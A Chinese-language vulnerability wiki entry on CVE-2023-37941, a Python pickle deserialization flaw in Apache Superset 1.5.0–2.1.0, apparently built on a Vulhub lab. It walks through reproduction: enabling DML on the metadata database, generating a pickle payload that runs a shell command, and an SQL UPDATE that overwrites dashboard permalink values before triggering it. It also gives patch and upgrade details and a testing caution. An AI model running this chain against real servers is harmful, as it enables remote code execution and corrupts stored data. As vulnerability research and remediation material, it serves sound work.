







# Apache Superset metadata Pickle反序列化

## 条目说明

- 对象与具体问题：Apache Superset；metadata Pickle反序列化
- 版本、配置及部署条件：1.5.0至2.1.0；元数据库写权限；Vulhub2.0.1
- 认证与权限前提：已认证且元数据库写；27524为前置链
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 正确区分主37941与引用27524，不能归匿名独立漏洞
- SQL更新所有dashboard_permalink可能破坏多份状态，应注明范围/清理
- SQLite路径和Allow DML为靶场条件；保留2.1.1及官方commit来源，外部未核验

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

Apache Superset 是一个开源的数据探索和可视化平台，设计为可视化、直观和交互式的数据分析工具。

Apache Superset 1.5 至 2.1.0 版本中存在一个 Python Pickle 反序列化漏洞（CVE-2023-37941）。该应用程序使用 Python 的 `pickle` 包来在元数据数据库中存储特定的配置数据。具有元数据数据库写入权限的已认证用户可以插入恶意的 Pickle 有效载荷，当应用程序反序列化这些数据时，会导致 Superset 服务器上的远程代码执行。

当与 [CVE-2023-27524](https://github.com/vulhub/vulhub/blob/master/superset/CVE-2023-27524) 结合使用时，未经身份验证的攻击者可以先绕过身份验证，然后利用反序列化漏洞执行任意代码。

参考链接：

- https://www.horizon3.ai/attack-research/disclosures/apache-superset-part-ii-rce-credential-harvesting-and-more/
- https://github.com/Barroqueiro/CVE-2023-37941
- https://forum.butian.net/share/2458

### 漏洞影响

```
1.5.0 ≤ Apache Superset ≤ 2.1.0
```

### 环境搭建

Vulhub 执行以下命令启动 Apache Superset 2.0.1 服务器：

```
docker compose up -d
```

服务启动后，可以通过 `http://your-ip:8088` 访问 Superset。默认登录凭据为 admin/vulhub。




### 漏洞复现

执行以下步骤前，假设你已经通过 [CVE-2023-27524](https://github.com/vulhub/vulhub/blob/master/superset/CVE-2023-27524) 漏洞生成有效的会话 Cookie 并登录到仪表板。




首先，创建一个新的 "Dashboard"，并通过点击 "Share" 按钮生成一个永久链接，复制这个永久链接，稍后将会用到：

```
http://your-ip:8088/superset/dashboard/p/b1l723YMwWy/
```




然后，按照以下步骤创建一个新的 "Database"：

1. 导航到 "Data"→"Databases"
2. 点击 "+ Database" 添加一个新的数据库连接
3. 输入数据库名称（比如 "SQLite"）
4. 这里请填写：`sqlite+pysqlite:////app/superset_home/superset.db`
5. 展开 "Advanced" 并勾选 "Expose in SQL Lab" 和 "Allow DML"
6. 保存数据库配置




然后，使用 [CVE-2023-37941.py](https://github.com/vulhub/vulhub/blob/master/superset/CVE-2023-37941/CVE-2023-37941.py) 生成恶意 SQL 命令（`-d` 选项可以是 `sqlite`、`mysql` 或 `postgres`，表示 Superset 服务器的数据库类型，在 Vulhub 中是 `sqlite`）：

```shell
python CVE-2023-37941.py -c "touch /tmp/awesome_poc" -d sqlite
[+] Base64 encoded payload:
Y3Bvc2l4CnN5c3RlbQpwMAooVnRvdWNoIC90bXAvYXdlc29tZV9wb2MKcDEKdHAyClJwMwou

[+] Hex encoded payload (for SQL): 
update key_value set value=X'63706f7369780a73797374656d0a70300a2856746f756368202f746d702f617765736f6d655f706f630a70310a7470320a5270330a2e' where resource='dashboard_permalink';
```

>  因为 `pickle` 反序列化的 Payload 在不同操作系统上是不同的，所以你需要在 Linux 或 MacOS 上生成 Payload。

在 SQL Lab 中执行生成的 SQL 命令：




最后，通过访问前面复制的永久链接触发反序列化：




可见，`touch /tmp/awesome_poc` 命令已成功执行：




### 漏洞修复

官方已发布补丁： https://github.com/apache/superset/commit/1d61ac17839c588bae240386443a904c8cebb4ab ，建议升级 apache-superset 到 [2.1.1](https://github.com/apache/superset/releases/tag/2.1.1) 或更高版本。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
